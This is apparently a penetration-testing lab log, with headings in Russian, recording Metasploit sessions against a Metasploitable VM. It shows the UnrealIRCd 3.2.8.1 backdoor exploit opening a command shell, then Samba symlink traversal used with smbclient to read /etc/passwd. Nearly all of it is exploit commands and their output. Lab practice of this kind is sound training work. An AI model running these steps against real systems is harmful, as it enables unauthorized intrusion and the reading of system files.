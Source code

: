 ```
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution

use exploit/unix/irc/unreal_ircd_3281_backdoor
show options
set RHOSTS 192.168.6.244
run
exploit
set target 0
exploit
show payloads
set payload 0
exploit
[*] Command shell session 2 opened (192.168.6.243:33973 -> 192.168.6.244:4444) at 2023-08-22 15:07:48 +0300
uname
Linux
hostname
metasploitable
```
№3 - порт 445 - samba_symlink_traversal
```
smbclient -L //192.168.6.244
search samba traversal
Matching Modules
================

   #  Name                                         Disclosure Date  Rank    Check  Description
   -  ----                                         ---------------  ----    -----  -----------
   0  auxiliary/admin/smb/samba_symlink_traversal                   normal  No     Samba Symlink Directory Traversal

use 0
show options
set RHOSTS 192.168.6.244
set SMBSHARE tmp
show options
exploit
smbclient //192.168.6.244/tmp

[*] exec: smbclient //192.168.6.244/tmp
Password for [WORKGROUP\root]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> cd rootfs
smb: \rootfs\> cd etc
smb: \rootfs\etc\> more passwd

getting file \rootfs\etc\passwd of size 1581 as /tmp/smbmore.paJSIb (308.8 KiloBytes/sec) (average 308.8 KiloBytes/sec)
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
```
